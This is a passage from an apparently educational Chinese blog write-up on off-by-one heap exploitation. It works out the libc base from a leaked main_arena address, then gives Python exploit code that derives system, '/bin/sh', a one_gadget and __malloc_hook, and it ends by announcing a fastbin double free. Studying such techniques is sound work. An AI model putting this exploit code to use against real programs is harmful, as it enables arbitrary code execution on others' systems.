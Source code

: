 验证：

![30](/chunk_offbyone/30.png)



⚠️原本一直找不对，是因为我已经先减掉0x88了，而别人的博客中exp没去减掉这个0x88，直接用\- 0x3c4b78即可。

```python
0x7ffff7dd1b78 -  0x3c4b78 = 0x7ffff7a0d000

而：
0x3c4af0 + 0x88 = 0x3c4b78
```

虽然还是没有明白是怎么确定`0x3c4b78`这个值的，但是很多博客里面直接就这样写了，我也先这样操作好了👌



one_gadget如下：

![31](/Users/my/Desktop/bloging/堆利用三之off by one/31.png)

```python
main_arena = 0x7ffff7dd1af0
print "main_arena --->" + hex(main_arena)
libc_base = 0x7ffff7dd1af0 - 0x3c4af0
print "libc --->" + hex(libc_base)
system = libc_base + libc.sym["system"]
binsh = libc_base + libc.search('/bin/sh').next()
print "system --->" + hex(system)
print "binsh --->" + hex(binsh)
one_gadget = libc_base + 0xf0364
print "one_gadget --->" + hex(one_gadget) + '\n'
malloc_hook = libc_base + libc.sym["__malloc_hook"]
realloc = libc_base + libc.sym["realloc"]
```



接下来，利用fastbins中大小为0x70的块，进行double free。
